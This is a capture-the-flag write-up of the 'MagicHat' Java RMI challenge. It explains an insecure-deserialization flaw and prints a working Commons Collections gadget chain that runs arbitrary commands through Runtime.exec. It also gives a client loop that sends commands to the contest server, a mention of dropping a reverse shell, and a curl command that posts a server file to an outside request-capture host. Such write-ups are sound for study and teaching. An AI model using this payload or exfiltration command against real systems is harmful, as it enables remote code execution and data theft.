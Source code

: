 # MagicHat (Pwn, 321p, 9 solved)

In the task we get a [client](magic_hat_client.jar) for Java RMI application.
We can add this jar as a library in IntelliJ IDEA project, and it will decompile the code for us.

The code is rather simple, we establish a connection via RMI with the server and then we can place some objects inside Hat object, and send it to the server.
Server takes those objects and does some operations on them.

```java
Properties props = System.getProperties();
props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
WizardAPI wizardAPI = (WizardAPI)registry.lookup("Wizard");
//
Hat magicHat = wizardAPI.getMagicHat();
//
magicHat.add(new Wand());
//
Pair<String, Hat> answer = wizardAPI.castASpell(magicHat);
magicHat = (Hat)answer.getRight();
System.out.println((String)answer.getLeft());
```

RMI has 2 types of objects which can be passed between remote endpoints - Remote objects (passed as proxies), and Serializable objects, passed in serialized form.
In our case every artifact we can place in the Hat is Serializable.
The Hat itself is simply:

```java
public class Hat extends Artifact {
    private Bag content = new HashBag();

    public void add(Artifact a) {
        this.content.add(a);
    }

    public String toString() {
        String str = super.toString();
        if (!this.content.isEmpty()) {
            str = str + " that contains: \n" + this.content.toString().replace(":", "x ").replace(',', '\n');
        }
        return str;
    }
}
```

The vulnerability here is that server endpoint deserializes objects we send. 
It might later crash with `ClassCastException` if the objects were not of the expected type, but they will be deserialized before that happens.
It's also worth understanding that Java doesn't have notion of generic types at runtime.
Pretty much any collection type can store any objects, also of totally unrelated types.
It means we can store anything in the `HashBag` in `Hat` class.

We used slightly modified payload from [ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java).
We use the same approach, but instead of `HashSet` we create `HashBag`, we also used `Whitebox` to skip all the reflection madness:

```java
private static Hat preparePayload(String command) {
	// like in CommonsCollections6
	String[] execArgs = new String[]{command};
	Transformer[] transformers = new Transformer[]{new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), new InvokerTransformer("exec", new Class[]{String.class}, execArgs), new ConstantTransformer(1)};
	Transformer transformerChain = new ChainedTransformer(transformers);
	Map innerMap = new HashMap();
	Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
	HashBag bagWithExploit = new HashBag();
	bagWithExploit.add(new Object());

	Map internalMap = Whitebox.getInternalState(bagWithExploit, "map");
	Object[] nodesArray = Whitebox.getInternalState(internalMap, "table");
	Object node = Arrays.stream(nodesArray)
			.filter(Objects::nonNull)
			.findFirst()
			.orElseThrow(() -> new RuntimeException("this can't happen"));
	Whitebox.setInternalState(node, "key", entry);

	Hat hat = new Hat();
	Whitebox.setInternalState(hat, "content", bagWithExploit);
	return hat;
}
```

Now we can simply send this `hat` to the server to invoke `command`.
We run the exploit with:

```java
    public static void main(final String[] args) throws Exception {
        Properties props = System.getProperties();
        props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
        props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
        Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
        WizardAPI wizard = (WizardAPI) registry.lookup("Wizard");
        Scanner sc = new Scanner(System.in);
        while (true) {
            System.out.print("> ");
            execCommand(wizard, sc.nextLine());
        }
    }

    private static void execCommand(WizardAPI wizard, String command) {
        try {
            wizard.castASpell(preparePayload(command));
        } catch (Exception e) {
        }
    }
```

And we basically have RCE on the server, although without immediate echo, but we can always drop a reverse-shell.
After some poking around we find the `flag.txt` file in `/home/magic-hat` so we can grab it with:

`curl -d @/home/magic-hat/flag.txt -X POST https://requestb.in/blablabla`

And we get: `INS{lol_ur_a_lizard_Gary!}`
